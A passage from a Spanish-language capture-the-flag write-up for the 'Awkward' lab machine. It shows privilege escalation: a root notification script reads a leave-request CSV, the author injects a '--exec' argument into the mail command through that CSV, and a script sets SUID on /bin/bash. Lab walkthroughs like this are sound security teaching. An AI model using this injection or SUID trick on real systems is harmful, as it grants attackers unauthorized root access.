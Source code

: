 www-data@awkward:~/store$ export TERM=xterm # Establecer el tipo de terminal
www-data@awkward:~/store$ stty rows 37 columns 151 # Establecer filas y columnas
{% endhighlight %}

El archivo `leave_requests.csv` contiene lo siguiente:

{% highlight csv %}
Leave Request Database,,,,
,,,,
HR System Username,Reason,Start Date,End Date,Approved
bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
christine.wool,Need a break from Jackson,14/03/2022,21/03/2022,Yes
jackson.lightheart,Great uncle's goldfish funeral + ceremony,10/05/2022,10/06/2022,No
jackson.lightheart,Vegemite eating competition,12/12/2022,22/12/2022,No
christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes
bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
{% endhighlight %}

Vamos a editarlo para ver que pasa; mientras edito dejaré el pspy64 corriendo en otra sesión ssh como bean.

```
echo "test" >> leave_requests.csv
```

Haciendo esto, vemos que ejecuta el comando mail... con el string que le concatenamos al final de `leave_requests.csv`:

{% highlight bash %}
2023/02/24 07:12:28 CMD: UID=0    PID=9016   | /bin/bash /root/scripts/notify.sh 
2023/02/24 07:12:28 CMD: UID=0    PID=9020   | mail -s Leave Request: test christine 
2023/02/24 07:12:28 CMD: UID=0    PID=9021   | /usr/sbin/sendmail -oi -f root@awkward -t 
2023/02/24 07:12:28 CMD: UID=0    PID=9022   | /usr/sbin/postdrop -r 
2023/02/24 07:12:28 CMD: UID=0    PID=9023   | cleanup -z -t unix -u -c 
2023/02/24 07:12:28 CMD: UID=0    PID=9024   | trivial-rewrite -n rewrite -t unix -u -c 
2023/02/24 07:12:28 CMD: UID=0    PID=9025   | local -t unix 
{% endhighlight %}

Veamos si podemos injectarle el parametro de mail `--exec` para decirle que nos ejecute el script que creamos antes.

Podrías dejarle el mismo contenido y editarle la IP/puerto para que te envíe una consola como root pero yo haré que me convierta la Bash en un binario SUID

{% highlight bash %}
#!/bin/bash
chmod u+s /bin/bash
{% endhighlight %}

Ahora metemos el parametro a inyectar y unos datos extra para seguir el formato del CSV al archivo

{% highlight bash %}
echo '" --exec="\!/tmp/a.sh",1,1,1,1' >> leave_requests.csv
{% endhighlight %}

y bang
